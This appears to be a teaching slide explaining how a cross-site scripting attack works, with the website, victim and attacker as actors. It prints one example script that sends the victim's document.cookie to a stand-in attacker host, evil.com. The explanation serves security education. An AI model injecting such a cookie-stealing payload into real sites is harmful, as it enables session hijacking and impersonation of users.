

# The anatomy of a Cross-site Scripting attack
An XSS attack needs three actors — the website, the victim and the attacker.
In the example following, it shall be assumed that the attacker’s goal is to impersonate the victim by stealing the victim’s cookie. Sending the cookie to a server the attacker controls can be achieved in a variety of ways, one of which is for the attacker to execute the following JavaScript code in the victim’s browser through an XSS vulnerability.

<script>
window.location=“http://evil.com/?cookie=” + document.cookie
</script>